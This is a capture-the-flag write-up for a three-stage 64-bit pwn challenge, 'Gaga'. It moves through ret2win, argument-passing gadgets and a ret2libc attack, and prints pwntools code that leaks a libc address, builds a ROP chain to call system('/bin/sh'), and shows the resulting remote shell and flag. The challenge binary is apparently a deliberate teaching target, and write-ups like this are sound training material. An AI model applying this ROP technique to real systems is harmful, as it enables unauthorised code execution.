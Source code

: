 # Gaga
`64-bits Binary` `ret2win` `calling convention` `ret2libc`

This challenge consist of 3 stages, `gaga0 - gaga1 - gaga2`, however I find it funny because I thought `gaga0` will give the first flag, `gaga1` will give the 2nd, and the final part will be given upon finishing the `gaga2`, but actually it'll give you the full flag once you finished `gaga2`, regardless I create the solve for everything :smile:

We can see that all the binary is a 64-bits binary when we run the checksec function, and all gaga has the same security running which

```
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```

Now for the `gaga0` is just a simple `ret2win`, we can find the offset with gdb, using the command `pattern create`, then run the binary and input the pattern we've created there, of course it'll return as Segmentation Fault, now we run `pattern offset $rsp` and thus we find the offset of 72. Don't forget to get the win0 function and we have the exploit.

:warning: Because the flag is only partial I won't show the code here, but you can see it in [gaga0.py](./gaga0.py)


Next up is the `gaga1`, when you decompile the binary it has the `win1` function, but you need 2 parameter to get your flag, the offset is the same as before, but we need to use `pop rdi` and `pop rsi` in order to satisfy the requirement.

:warning: Because the flas is only partial, you can see the exploit.py by yourself [here](./gaga1.py)

Finally we get to the main part of the challenge, the `gaga2`. This is a `ret2libc` challenge, where we need to spawn a shell with a got of our selection. The first part is to leak the got with a `puts plt` that we have there.

```python
leaker = b'a'*72
leaker+= p64(pop_rdi)
leaker+= p64(elf.got.puts)
leaker+= p64(elf.plt.puts)
leaker+= p64(elf.symbols.main)

p.sendline(leaker)

puts = u64(p.recvline().replace(b'\n',b'').ljust(8,b'\0'))
log.info(f'Puts : {hex(puts)}')
libc_addr = puts - 0x84420
log.info(f'Libc Addr : {hex(libc_addr)}')
```

using this script, we can get the `puts got` and with that we can calculate the `libc base` by running it on the nc and then find the libc on [libc.blukat.me](https://libc.blukat.me/), which we found `libc6_2.31-0ubuntu9.9_amd64` as the libc that's running on the server. (I found the correct one after some trial and error)

Now we can calculate all the address we need like system, bin_sh using the libc that we found.

```python
pop_rdi = 0x4012b3
system = libc_addr + 0x52290
binsh = libc_addr + 0x1b45bd
ret =0x000000000040101a

log.info(f'pop rdi : {hex(pop_rdi)}')
log.info(f'system : {hex(system)}')
log.info(f'bin_sh : {hex(binsh)}')
log.info(f'ret : {hex(ret)}')
```

Once we have everything prepared, we can preapre our next exploit to finally spawn the shell on the server, and of course to be safe we gonna use stack alignment

```python
payload = b'a'*72
payload+= p64(pop_rdi)
payload+= p64(binsh)
payload+= p64(ret)
payload+= p64(system)

p.sendline(payload)


p.interactive()
```

You can see the full script that I run to the server [here](./gaga2.py), and the result.

```r
[*] '/home/kiinzu/Downloads/gaga2'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
[*] Loaded 14 cached gadgets for './gaga2'
[*] '/home/kiinzu/Downloads/libc6_2.31-0ubuntu9.9_amd64.so'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
[+] Opening connection to challs.actf.co on port 31302: Done
b"Awesome! Now there's no system(), so what will you do?!\nYour input: "
[*] Puts : 0x7f37334fa420
[*] Libc Addr : 0x7f3733476000
[*] pop rdi : 0x4012b3
[*] system : 0x7f37334c8290
[*] bin_sh : 0x7f373362a5bd
[*] ret : 0x40101a
[*] Switching to interactive mode
$ ls
flag.txt
run
$ cat flag.txt
actf{b4by's_f1rst_pwn!_3857ffd6bfdf775e}
```
